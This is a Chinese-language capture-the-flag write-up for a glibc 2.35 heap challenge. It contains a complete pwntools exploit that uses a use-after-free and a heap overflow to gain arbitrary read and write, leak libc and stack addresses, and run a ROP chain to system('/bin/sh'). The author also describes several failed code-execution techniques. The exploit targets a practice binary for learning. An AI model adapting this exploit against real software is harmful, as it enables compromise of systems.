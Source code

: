 # babyheap

一个babyheap我做了5个多小时……而且这题确实挺baby，所有知识点都是我见过的。那为什么还是做了这么久？因为我习惯纸上谈兵了，所有知识点都是在脑子里过一遍，觉得理解了就跑了，根本没实验过。更离谱的是，这题是我学习pwn以来独立做的第二道heap题。没错，我学pwn一年多了，只独立做了两道heap题，剩下全是看wp看的。我也不知道我是咋看下去那些wp的……

这题的关键点如下：
- add函数可以malloc大小为unsorted bin size的chunk，但不能超过200大小，而且总共只能调用这个函数15次。每次调用add函数，程序会分配两个chunk，第一个chunk（metadata）固定大小为0x18，第二个chunk大小由用户决定，用来装用户指定的data。第一个chunk的结构为：`size | 1(used_bit) | 指向第二个chunk的指针`，每个field 8个字节。程序会将第一个chunk的地址存入全局数组chunks
- free函数处有UAF。free掉两个chunk后会清空metadata的used_bit和指针，但不会清空chunks。要求metadata的size，used_bit和指针均不为0
- modify可用来修改chunk2，大小固定为40。有free里一样的检查
- view打印chunk2的内容，长度为metadata里记录的size。同样有free里一样的检查

很明显，modify处有堆溢出；free处有UAF。直接上exp
```py
from pwn import *
context.arch="amd64"
libc=ELF("./libc.so.6")
p=process("./chall")
def add(size,content):
    p.sendlineafter(">> ","1")
    p.sendlineafter(": ",str(size))
    p.sendlineafter(": ",content)
def free(index):
    p.sendlineafter(">> ","2")
    p.sendlineafter(": ",str(index))
def modify(index,content):
    p.sendlineafter(">> ","3")
    p.sendlineafter(": ",str(index))
    p.sendlineafter(": ",content)
def view(index):
    p.sendlineafter(">> ","4")
    p.sendlineafter(": ",str(index))
def write(addr,content):
    assert len(content)<=40
    modify(1,p64(8)+p64(1)+p64(addr))
    modify(0,content)
def read(addr,size):
    modify(1,p64(size)+p64(1)+p64(addr))
    view(0)
#给后面的任意地址读写做准备
add(32,"aaaa") #申请的大小不和metadata的大小一致就行
add(32,"bbbb")
free(0)
free(1) #两个chunk的metadata均入tcache
add(8,"cccc") #现在chunk2为第一个chunk的metadata。modify这个chunk等于修改第一个chunk的metadata。修改metadata里的size和指针就能实现任意地址读写
for i in range(7): #Fill tcache
    add(199,"aaaa")
add(8,"bbbb") #The chunk used to overflow to next chunk's size
add(8,"victim") #The chunk get overflowed
add(199,"libc") #To unsorted bin
add(8,"bbbb") #Prevent top chunk consolidation
for i in range(7):
    free(i+3)
free(9+3) #这个chunk进了unsorted bin，包含libc地址
modify(7+3,b"b"*8+p64(0)*2+p64(0xe1)) #overwrite next chunk's size。直接把那个包含libc地址的chunk包住了
free(8+3) #overlap chunk, contains libc address
add(12*8+8,"")
view(11+3)
libc.address=u64(p.recv(6).ljust(8,b'\x00'))-2206986
read(libc.sym["__environ"],8)
ret=u64(p.recv(8))-288
write(ret,p64(next(libc.search(asm('ret'), executable=True)))+p64(next(libc.search(asm('pop rdi; ret'), executable=True)))+p64(libc.search(b'/bin/sh').__next__())+p64(libc.sym["system"]))
p.sendlineafter(">> ",'5')
p.interactive()
```
之前我一直以为overlap chunk很困难，要和off by null一样考虑很多条件。但是看了[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/overlapping_chunks.c)发现，只要覆盖chunk的size为任意一个合理的size就行了，甚至不需要完全把物理相邻的下一个chunk包住。这是modify之前的内存布局：

![memory_layout](./memory_layout.png)

`0x5879b462b9e0`是我们即将modify的chunk的metadata，`0x5879b462b9f0`是我们即将modify的chunk。可以看到我们即将把位于`0x5879b462ba08`的0x21修改成0xe1，对应着metadata chunk `0x5879b462ba10` 的size。来看看free后是什么情况

![free_bins](./free_bins.png)

发现`0x5879b462ba10`确实进了大小为0xe0的tcache。但是看看底下那个unsorted bin里的chunk `0x5879b462ba60`，很明显有部分和`0x5879b462ba10`重复了。现在理论上，如果我们申请一个0xe0大小的chunk，写data时就能一直覆盖到那个libc地址，进而用view泄漏libc地址

然后我突然发现根本没必要。我接下来申请的chunk大小为104，和0xe0根本不沾边，为啥还能得到libc地址？这里只需要申请一个不在已有tcache里并小于unsorted bin的大小就行了，因为这样libc会从unsorted bin切出一块，直接包含libc。又因为程序没有清空chunk，所以直接就拿到了libc地址。这个chunk overlap根本就没必要……我本来想着用chunk overlap泄漏地址并覆盖metadata chunk，结果发现有更简单的方法，就是脚本开头的那几步

后面拿RCE也卡了我很久。我写前半部分脚本和后半部分的时间隔了大半天，忘了有view函数……于是努力寻找一个只需要libc地址的RCE方法。翻了大佬的[笔记](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc)，似乎一个也用不了。以下是我尝试各个方法的记录

1. 我用`got -p libc`查看了libc里的可写got表，确实找到了puts在libc里对应的got表。找法很简单，在puts上下个断点，跟进去，会发现它内部调用了一个名为`*ABS*+0xa86a0@plt`的函数（不同libc版本不一样）。记住`0xa86a0`这串数字，就能在got表里找到其对应的got项了。但不幸的是，4个one_gadget一个也不能用。也看了里面提到的串联两个got表调整的做法。这个方法主要利用了`__GI___printf_fp_l+5607`处的gadget(可以用`x/4i __GI___printf_fp_l+5607`查看这个gadget。在r14和`[rbp-0x108]`处为0的情况，这个gadget能将rsi和rdx清空，就满足one gadget的调用条件了。gadget的末尾会跳转到`*ABS*+0xa97d0@plt`，或者说memcpy。所以将memcpy的got改为one_gadget，再将别的什么函数的got改为`__GI___printf_fp_l+5607`即可)。但问题在于，如果我想用这个方法的话，我必须同时将两个函数的got改为相应的值，因为其他libc函数内部也会调用memcpy。或者我在程序内找个别的函数，我可以控制它何时调用。这样先改这个函数的got，再改memcpy的got即可。然而我并没有找到这样的函数，程序里用到的所有函数基本都在两个modify之间被调用过。可能是我找得不够详细吧，总之失败
2. 找不到link_map的地址。而且好像是2.38才能用这个方法，我在2.35的[源码](https://elixir.bootlin.com/glibc/glibc-2.35/A/ident/_dl_call_fini)里没找到`_dl_call_fini`这个函数，但是2.38[源码](https://elixir.bootlin.com/glibc/glibc-2.38/A/ident/_dl_call_fini)里有
3. 一次只能写40个字节，不够完成利用stdout的覆盖操作。而且下面接着就调用IO函数了，也不能分成多部分覆盖
4. 程序里用了printf，但没用conversion specifier
5. 忘了有view函数，遂无法得知`tls-storage`的地址
6. 同上，不知道tls_base。而且发现tls base和libc基地址的偏移不是固定的

寄……了吗？本来是寄了的，但是我想起来有view函数了。但是咋泄漏tls的地址？我压根就没想，因为我记得libc里有个environ，可以泄漏栈地址。直接返璞归真，写rop去了。另外我发现environ里泄漏的那个栈地址和栈基地址的偏移不是固定的，但是和main函数返回地址的偏移是固定的

我每次纸上谈兵时都有侥幸：我都理解每个知识点和步骤了，到时候自己写肯定也写得出来。嗯……确实也没错，真的写出来了，但是这跌跌撞撞的步骤和喜剧般的用时是怎么回事？